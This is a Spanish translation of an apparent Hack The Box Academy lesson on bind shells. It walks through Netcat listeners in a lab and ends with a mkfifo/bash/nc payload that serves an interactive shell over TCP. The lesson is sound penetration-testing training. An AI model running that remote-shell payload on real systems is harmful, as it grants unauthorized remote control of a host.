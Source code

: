 En muchos casos, trabajaremos para establecer una shell en un sistema en una red local o remota. Esto significa que buscaremos usar la aplicación de emulador de terminal en nuestra caja de ataque local para controlar el sistema remoto a través de su shell. Esto se hace típicamente usando una `Bind` y/o `Reverse` shell.

---
## What Is It?

Con una bind shell, el sistema `target` tiene un listener iniciado y espera una conexión desde el sistema del pentester (caja de ataque).

### Bind Example

![image](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

Como se ve en la imagen, nos conectaríamos directamente con la `IP address` y el `port` que está escuchando en el target. Pueden haber muchos desafíos asociados con obtener una shell de esta manera. Aquí hay algunos a considerar:

- Debe haber un listener ya iniciado en el target.
- Si no hay un listener iniciado, necesitamos encontrar una manera de hacerlo.
- Los administradores típicamente configuran reglas de firewall entrantes estrictas y NAT (con implementación de PAT) en el borde de la red (de cara al público), por lo que ya deberíamos estar en la red interna.
- Los firewalls del sistema operativo (en Windows y Linux) probablemente bloquearán la mayoría de las conexiones entrantes que no estén asociadas con aplicaciones de red confiables.

Los firewalls de OS pueden ser problemáticos al establecer una shell, ya que necesitamos considerar las direcciones IP, los puertos y la herramienta que utilizamos para que nuestra conexión funcione con éxito. En el ejemplo anterior, la aplicación utilizada para iniciar el listener se llama [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) se considera nuestro `Swiss-Army Knife` ya que puede funcionar sobre TCP, UDP y sockets Unix. Es capaz de usar IPv4 e IPv6, abrir y escuchar en sockets, operar como proxy e incluso manejar entrada y salida de texto. Usaríamos nc en la caja de ataque como nuestro `client`, y el target sería el `server`.

Vamos a obtener una comprensión más profunda de esto practicando con Netcat y estableciendo una conexión de bind shell con un host en la misma red sin restricciones.

---
## Practicing with GNU Netcat

Primero, necesitamos iniciar nuestra caja de ataque o Pwnbox y conectarnos al entorno de red de la Academy. Luego, asegurarnos de que nuestro target esté iniciado. En este escenario, interactuaremos con un sistema Ubuntu Linux para entender la naturaleza de una bind shell. Para hacer esto, usaremos `netcat` (`nc`) en el cliente y el servidor.

Una vez conectados al target con ssh, iniciamos un listener de Netcat:

### No. 1: Server - Target starting Netcat listener

```r
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

En este caso, el target será nuestro servidor y la caja de ataque será nuestro cliente. Una vez presionemos enter, el listener se inicia y espera una conexión del cliente.
De vuelta en el cliente (caja de ataque), usaremos nc para conectarnos al listener que iniciamos en el servidor.

### No. 2: Client - Attack box connecting to target

```r
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Observa cómo estamos usando nc tanto en el cliente como en el servidor. En el lado del cliente, especificamos la dirección IP del servidor y el puerto que configuramos para escuchar (`7777`). Una vez que nos conectamos con éxito, podemos ver un mensaje `succeeded!` en el cliente como se muestra arriba y un mensaje `received!` en el servidor, como se ve a continuación.

### No. 3: Server - Target receiving connection from client

```r
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

Debes saber que esto no es una shell propiamente dicha. Es solo una sesión TCP de Netcat que hemos establecido. Podemos ver su funcionalidad escribiendo un mensaje simple en el lado del cliente y viéndolo recibido en el lado del servidor.

### No. 4: Client - Attack box sending message Hello Academy

```r
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

Una vez que escribamos el mensaje y presionemos enter, notaremos que el mensaje se recibe en el lado del servidor.

### No. 5: Server - Target receiving Hello Academy message

```r
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

Nota: Cuando estés en la red de la academy (10.129.x.x/16), podemos trabajar con otro estudiante de la academy para conectarnos a su target y practicar los conceptos presentados en este módulo.

---

## Establishing a Basic Bind Shell with Netcat

Hemos demostrado que podemos usar Netcat para enviar texto entre el cliente y el servidor, pero esto no es una bind shell porque no podemos interactuar con el sistema operativo y el sistema de archivos. Solo podemos pasar texto dentro del pipe configurado por Netcat. Vamos a usar Netcat para ofrecer nuestra shell y establecer una verdadera bind shell.

En el lado del servidor, necesitaremos especificar el `directory`, `shell`, `listener`, trabajar con algunos `pipelines`, y `input` y `output` `redirection` para asegurar que una shell en el sistema se sirva cuando el cliente intente conectarse.

### No. 1: Server - Binding a Bash shell to the TCP session

```r
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Los comandos anteriores se consideran nuestro payload, y entregamos este payload manualmente. Notaremos que los comandos y el código en nuestros payloads diferirán según el sistema operativo del host al que lo estemos entregando.

De vuelta en el cliente, usa Netcat para conectarte al servidor ahora que se está sirviendo una shell en el servidor.

### No. 2: Client - Connecting to bind shell on target

```r
nc -nv 10.129.41.200 7777

Target@server:~$
```

Notaremos que hemos establecido con éxito una sesión de bind shell con el target. Ten en cuenta que teníamos control total sobre nuestra caja de ataque y el sistema target en este escenario, lo cual no es típico. Trabajamos en estos ejercicios para entender los fundamentos de la bind shell y cómo funciona sin ningún control de seguridad (routers con NAT habilitado, firewalls de hardware, Web Application Firewalls, IDS, IPS, firewalls de OS, protección de endpoint, mecanismos de autenticación, etc.) en su lugar o exploits necesarios. Esta comprensión fundamental será útil a medida que entremos en situaciones más desafiantes y escenarios realistas trabajando con sistemas vulnerables.

Como se mencionó anteriormente en esta sección, también es bueno recordar que la bind shell es mucho más fácil de defender. Dado que la conexión será recibida de manera entrante, es más probable que sea detectada y bloqueada por firewalls incluso si se usan puertos estándar al iniciar un listener. Hay formas de evitar esto utilizando una reverse shell, que discutiremos en la siguiente sección.

Ahora, pongamos a prueba nuestra comprensión de estos conceptos con algunas preguntas de desafío.